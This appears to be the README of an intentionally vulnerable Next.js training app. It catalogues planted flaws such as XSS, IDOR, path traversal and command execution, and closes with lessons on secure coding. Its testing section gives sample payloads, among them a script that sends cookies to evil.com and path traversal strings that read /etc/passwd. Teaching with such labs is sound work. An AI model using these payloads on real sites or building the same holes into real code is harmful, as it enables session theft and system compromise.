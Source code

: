 # TaskMaster Pro - Intentionally Vulnerable Productivity App

⚠️ **WARNING: This application contains INTENTIONAL security vulnerabilities for educational purposes. DO NOT deploy to production or any public environment!**

## Overview

TaskMaster Pro is a Next.js productivity application that demonstrates common security vulnerabilities often found in AI-generated code. This app serves as an educational tool to understand what NOT to do when building web applications.

## Getting Started

```bash
npm install
npm run dev
```

Visit `http://localhost:3000` to access the application.

## Demo Credentials

- **Admin**: username: `admin`, password: `password`
- **User**: username: `user`, password: `123456`
- **Guest**: username: `guest`, password: `guest`

## Intentional Security Vulnerabilities

### 1. **Cross-Site Scripting (XSS)**
- **Location**: Task titles, descriptions, comments, search functionality
- **Example**: Try creating a task with title: `<script>alert('XSS')</script>`
- **Impact**: Can steal user sessions, redirect users, modify page content

### 2. **Insecure Session Management**
- **Issues**:
  - Weak, predictable token generation
  - Tokens stored in localStorage (not httpOnly cookies)
  - No token expiration or rotation
  - Session data exposed in client-side code
- **Location**: `/api/auth/login`, client-side storage
- **Impact**: Session hijacking, token prediction attacks

### 3. **Insecure Direct Object References (IDOR)**
- **Location**: `/profile` page, `/api/auth/user/[id]`
- **Example**: Change User ID to access any user's profile data
- **Impact**: Unauthorized access to sensitive user information including SSNs

### 4. **Path Traversal & Unrestricted File Upload**
- **Location**: `/upload` page, `/api/upload`, `/api/files/*`
- **Examples**:
  - Upload path: `../../../etc/passwd`
  - Filename: `../../../app/layout.tsx`
- **Impact**: Read/write arbitrary files, potential remote code execution

### 5. **Remote Code Execution (RCE)**
- **Location**: `/admin` page, `/api/admin/execute`
- **Example**: Execute system commands like `whoami`, `ls`, `cat /etc/passwd`
- **Impact**: Complete system compromise

### 6. **Missing Authentication & Authorization**
- **Issues**:
  - Admin panel accessible without proper role checking
  - API endpoints without authentication
  - No rate limiting or brute force protection
- **Impact**: Unauthorized access to administrative functions

### 7. **Information Disclosure**
- **Issues**:
  - Hardcoded API keys in frontend code
  - Detailed error messages exposing system information
  - Debug information in production
  - Sensitive data in API responses
- **Locations**: Page source, API error responses, logs

### 8. **Missing Security Headers**
- **Issues**:
  - No Content Security Policy (CSP)
  - No X-Frame-Options
  - No security headers in responses
- **Impact**: Clickjacking, XSS attacks

### 9. **Insecure File Operations**
- **Issues**:
  - File deletion via GET requests
  - No file type restrictions
  - Arbitrary file system access
- **Location**: File management functionality

### 10. **SQL Injection Potential**
- While this demo doesn't use a real database, the code patterns show vulnerability to SQL injection in database queries

## Educational Testing Scenarios

### XSS Testing
1. Create a task with title: `<img src=x onerror=alert('XSS')>`
2. Add a comment with: `<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>`
3. Search for: `<svg onload=alert('Search XSS')>`

### IDOR Testing
1. Log in as any user
2. Go to Profile page
3. Change the User ID field to access other users' data (try IDs 1-5)

### Path Traversal Testing
1. Upload a file with path: `../../../etc/passwd`
2. Try to download: `/api/files/download?file=../../../etc/passwd`
3. Upload with filename: `../../../malicious.php`

### RCE Testing (Admin Panel)
1. Access `/admin` (no real authentication required)
2. Execute commands:
   - `whoami` (current user)
   - `ls -la` (list files)
   - `cat /etc/passwd` (system users)
   - `ps aux` (running processes)

## File Structure

```
app/
├── layout.tsx                 # Hardcoded secrets, missing security headers
├── page.tsx                   # XSS in error messages, insecure session
├── tasks/page.tsx             # XSS vulnerabilities
├── upload/page.tsx            # Path traversal interface
├── profile/page.tsx           # IDOR vulnerabilities
├── admin/page.tsx             # Unauthorized access, RCE interface
└── api/
    ├── auth/
    │   ├── login/route.ts     # Insecure authentication
    │   └── user/[id]/route.ts # IDOR, information disclosure
    ├── tasks/                 # XSS, missing authentication
    ├── upload/route.ts        # Path traversal, unrestricted upload  
    ├── files/                 # Arbitrary file access
    └── admin/                 # RCE, information disclosure
```

## What NOT to Do (Lessons Learned)

1. **Never store sensitive data in localStorage**
2. **Always sanitize user input before rendering**
3. **Implement proper authentication and authorization**
4. **Validate and sanitize file uploads**
5. **Never execute user input as system commands**
6. **Use security headers and CSP**
7. **Don't expose detailed error messages**
8. **Implement rate limiting and input validation**
9. **Follow the principle of least privilege**
10. **Never hardcode secrets in client-side code**

## Disclaimer

This application is created solely for educational purposes to demonstrate common security vulnerabilities. It should never be deployed in a production environment or made accessible over the internet. The vulnerabilities are intentionally obvious and well-documented to aid in learning about web application security.

## Security Best Practices

For building secure applications, consider:
- Using established authentication libraries
- Implementing proper input validation and sanitization
- Following OWASP security guidelines
- Regular security audits and penetration testing
- Keeping dependencies updated
- Using security headers and CSP
- Implementing proper logging and monitoring

---

**Remember: With great power comes great responsibility. Use this knowledge to build more secure applications! 🔒**


